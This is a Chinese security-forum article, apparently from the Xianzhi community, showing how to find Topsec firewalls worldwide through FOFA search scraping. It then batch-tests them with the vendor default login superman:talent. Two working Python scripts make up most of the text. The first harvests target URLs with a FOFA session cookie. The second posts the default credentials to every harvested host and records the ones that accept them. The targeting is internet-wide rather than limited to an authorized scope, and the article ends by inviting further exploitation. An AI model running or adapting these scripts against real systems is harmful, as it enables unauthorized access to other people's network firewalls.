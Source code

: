 

# 教你如何快速拿下全网弱口令 - 先知社区

教你如何快速拿下全网弱口令

- - -

**前言：在一次测试中，偶遇了天融信的防火墙，弱口令测试未果，并且天融信的防火墙一般错误五次后会会锁定登录，所以也不能爆破弱口令，那么现实中这种系统还是很多的，本篇文章介绍一下利用 fofa 爬取全网相同系统服务器，然后批量检测默认用户名密码的脚本的编写，本篇就以天融信的防火墙弱口令为例。**

我们的思路是通过 fofa 搜索目标系统服务器独有特征，例如系统的一些独有页面，然后脚本爬取我们需要的链接收集起来，再利用脚本批量检测默认用户名密码即可。

（有了这个想法后百度了一下，已经有师傅写过 fofa 爬链接的脚本了，那就不造轮子了，拿来改一下吧，精简为主，代码也比较简单，师傅已经写的很好了，原文链接：[https://www.cnblogs.com/Cl0ud/p/12384457.html）](https://www.cnblogs.com/Cl0ud/p/12384457.html%EF%BC%89)

## 前期准备

一：登录会员 fofa 账号，不是 fofa 会员的话只能查看五页内容，想要爬取所有符合特征的链接，就需要会员了，普通会员就可以了，这个就需要自行解决啦！登录之后我们获取当前登录账户的 cookie 值以做后面爬取链接时使用。

[![](assets/1698897555-0714fd32292ca3a071faa631bdfe4889.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104307-82d40616-8213-1.png)

二：找到目标防火墙的特征 url："/cgi/maincgi.cgi"，fofa 搜索一些就可以找到相同的目标系统了，此时链接可以删除 q 参数，只要 qbase64 参数也是一样的，[https://fofa.so/result?qbase64=Ii9jZ2kvbWFpbmNnaS5jZ2ki，我们需要的是qbase64参数：Ii9jZ2kvbWFpbmNnaS5jZ2ki](https://fofa.so/result?qbase64=Ii9jZ2kvbWFpbmNnaS5jZ2ki%EF%BC%8C%E6%88%91%E4%BB%AC%E9%9C%80%E8%A6%81%E7%9A%84%E6%98%AFqbase64%E5%8F%82%E6%95%B0%EF%BC%9AIi9jZ2kvbWFpbmNnaS5jZ2ki)

[![](assets/1698897555-a52dd747cbc77c82181b838b7823dcb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104321-8b03a620-8213-1.png)

三：此时所有的链接都是天融信防火墙的后台登录页面了，可以看到有一个登录框，输入账号密码登录，我们输入默认的账号：密码→superman:talent，然后点击登录并抓包

[![](assets/1698897555-9fee655a13ec61588d830e2fa7f3a0a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104332-91695a96-8213-1.png)

[![](assets/1698897555-fd0eff6bf8201b7a10d1c42eb51c7443.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104337-94af45b2-8213-1.png)

**前期工作已经准备好了，接下来就需要写脚本爬取需要测试的链接并且批量验证了，为了方便后期的更改，爬取和检测弱口令分成两个脚本。**

## 脚本部分（分为链接爬取和批量检测）

脚本所需环境为 python2

### **fofa 链接爬取脚本**

编码的问题真的很烦，各种报错，脚本输出都为英文，并且我们直接将需要用到的 cookie，和 qbase 参数直接编辑到代码中，各位用的时候自行代码修改就可以了~

```bash
import requests
from lxml import etree
import re
import time

cookie = "1"
qbase64 = "Ii9jZ2kvbWFpbmNnaS5jZ2ki"
def spider():
    header = {
        "Connection": "keep-alive",
        "Cookie": "_fofapro_ars_session=" + cookie,
    }
    print("spider website is :https://fofa.so/result?qbase64=" + qbase64)
    html = requests.get(url="https://fofa.so/result?qbase64=" + qbase64, headers=header).text
    pagenum = re.findall('>(\d*)</a> <a class="next_page" rel="next"', html)
    print("have page: " + pagenum[0])
    stop_page = raw_input("please input stop page: \n")
    doc = open("url.txt", "a+")
    for i in range(1, int(pagenum[0])):
        print("Now write " + str(i) + " page")
        pageurl = requests.get('https://fofa.so/result?page=' + str(i) + '&qbase64=' + qbase64, headers=header)
        tree = etree.HTML(pageurl.text)
        urllist = tree.xpath('/html/body/div[@id="result"]/div[@class="main-result clearfix padTop90"]/div[@class="result-right-list"]/div[@class="result-right-list-view"]/div[@class="right-list-view-item clearfix"]/div[@class="fl box-sizing"]/div[@class="re-domain"]/a[@target="_blank"]/@href')
        for j in urllist:
            doc.write(j + "\n")
        if i == int(stop_page):
            break
        time.sleep(10)
    doc.close()
    print("OK,Spider is End .")

def main():
    spider()

if __name__ == '__main__':
    main()
```

在前期准备中我们已经获取了 fofa 登录用户的 cookie，以及我们搜索的 qbase64 参数，修改上面代码中的 cookie 和 qbase64 的值，然后 python 脚本名.py，输入要停止的页码后，等待运行结束，结束后同目录下的 url.txt 文件中就是所收集的目标系统 url。运行截图如下。

[![](assets/1698897555-d788f330037710bf516a0a23a103dcff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104347-9a57ba26-8213-1.png)

### **批量检测脚本**

```bash
import requests
import time
payload = {
    "username":"superman",
    "passwd":"talent",
    "loginSubmitIpt":''
}
'''proxy='127.0.0.1:1080'
proxies={
    'http':'http://' + proxy,
    'https':'https://' + proxy
}'''
header={'Connection': 'close'}
f = open("url.txt", "r")
r = open("url_x.txt","w")
lines = f.readlines()
i=0
x=0
for line in lines:
    try:
        response = requests.post(line+"/cgi/maincgi.cgi?Url=Index",data = payload,headers = header,timeout=5,verify=False)
    except:
        continue
    else:
        i=i+1
        print(str(i))
        if "maincgi.cgi?Url=Main" in (response.text.replace(u'\xa9', u'')):
            r.write(line + "\n")
            x=x+1
            print(str(i)+"is being detected")
            print("A vulnerability link has been detected" + str(x))
f.close()
r.close()
```

如果不用 try 的话，有一个报错，如下图，百度了一下，网上的方法都没有解决，经过测试，部分链接会报异常，部分链接是没问题的，所以我们这里用 try 来忽略这些异常的请求，如果有师傅有解决方法的话，欢迎提出建议哦~

[![](assets/1698897555-1481713fd94b43f480a612c246c26d36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104418-ad137592-8213-1.png)

脚本运行后，会读取 url.txt 的链接进行逐条检测默认口令，并输出正在检测第几条，在检测到弱口令系统后会输出已经检测出的数量。

[![](assets/1698897555-f60bac4593f8e80ffa6065e1f9e954f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104424-b0e0f334-8213-1.png)

检测出的弱口令系统链接也会输出出来，并且会将存在弱口令的系统链接保存在 url\_x.txt 中，如下图：

[![](assets/1698897555-9cdf67c31f8f4ef6570730bcb798f3c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104433-b5ecdc94-8213-1.png)

脚本在经历了亿小会儿的运行之后，结果也出来了，那么基本全网的天融信的默认口令系统也都在这里了，如下图：

[![](assets/1698897555-263991f29f914a602052c248e7812e96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104439-b9a8bc2c-8213-1.png)

**思路呢就是这样的，批量爬取，批量检测，更多的利用方式我就不说啦，各位按照需求自行修改代码就可以啦，缺点还是有不少的，期待各位师傅们提出意见和建议~**
